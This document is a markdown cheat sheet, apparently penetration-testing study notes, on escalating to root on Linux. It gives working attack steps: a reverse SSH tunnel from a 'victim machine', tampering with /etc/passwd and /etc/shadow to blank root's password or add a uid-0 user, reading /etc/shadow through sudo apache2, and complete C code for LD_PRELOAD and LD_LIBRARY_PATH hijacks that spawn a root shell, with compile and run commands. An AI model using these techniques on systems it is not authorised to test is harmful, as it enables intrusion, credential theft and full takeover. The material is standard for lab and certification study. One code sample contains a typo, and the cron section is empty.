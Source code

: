 # Linux Privilege Escalation 

## Tools
1. linpeas.sh
2. Linux Smart Enumeration
3. LinEnum

## Service Exploit
- ```ps aux | grep "^root"``` will show all processes running as root.
- Then try to identify the version number of each processes with:
```bash
<program> --version
<program> -v

# debian
dkpg -l | grep <program>

# rpm
rpm -qa | grep <program>
```
## Port Forwarding
- Run this in the victim machine:
``` ssh -R <local-port>:127.0.0.1:<servnice-port> <username>@<kali-machine>```
- you can use ```netstat -an``` or ```netstat -nl``` to see which port are listening locally. ```mysql``` usually listen on ```3306```
- now you can run services that are listening locally with your kali macchine for example:
```
mysql -u root -h 127.0.0.1 -P 4444
```
## Weak File Permissions

### /etc/shadow
- Example when ```/etc/shadow``` are readable for all, you can get the hash and bruteforce it.
- if ```/etc/shadow``` is writeable you can include your own password with ```mkpasswd -m sha-512 <password>```

### /etc/passwd
- if editing is possible you can attempt to remove the ```x``` from ```root:x:0:0:root:/bin/bash```. This tells linux root has no pw.
- alternatively, you can replace the hash in ```x``` using ```openssl passwd <password>```
- you can append a new row to create another alternative root user ```root2:<hash>:0:0:root2:/bin/bash```

### Backup
- Commmon place to look for backup files include ```/```, ```/tmp```, ```/var/backup```
- You may find ```ssh``` private key from readable ```.ssh``` directory

## Sudo
- Run a program with root using ```sudo <program>```
- Run a program with a specific user using ```sudo -u <username> <program>```
- Usually you will know if you can run program as another user or root through ```sudo -l```
- if you can run root as a user for all program but ```su``` is not available you can run things like
```
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```
- you can go to GTFObin to see if you can escape to root if there are available sudo program
- even if its not in GTFObin, you can try to abuse its intended use. For example ```sudo /usr/bin/apache2 -f /etc/shadow``` can read the file.

### ENV_RESET

- if this is not set you can change the path and escalate privilege.

### LD_PRELOAD
- will not work if real user id != effective user id
- sudo must be configured to preserve the LD_PRELOAD this can see in ```sudo -l```
- use this script named as ```preload.c```:
``` c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile it ```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c```
- run ```sudo LD_PRELOAD=/tmp/preload.so find``` to get root

### LD_LIBRARY_PATH
- ```sudo -l``` should state there is LD_LIBRARY_PATH
- run ```ldd /usr/sbin/apache2 #or any program name``` to list the shared library and pick any one.
- use this script called library_path.c
``` c
#include <stdio.h>
#include <stdlib.h>

static void hijack()__attribute__((consstructor));

void hijack() {
  unsetenv("LD_LIBRARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile ```gcc -o libcrypt.so.1 -shared -fPIC library_path.c```
- run the program with that library ```sudo LD_LIBRARY_PATH=. apache2```

## Cron jobs 


## Kernel Exploit (Last Resort)
- To enumerate Kernel version ```uname -a```
- Find exploit
- Run (Beware usually is 1 time and will crash system)
- ```Linux exploit suggester 2``` is a good tool to find kernel exploit:
```./linux-exploit-suggester-2.pl -k <kernel version>```

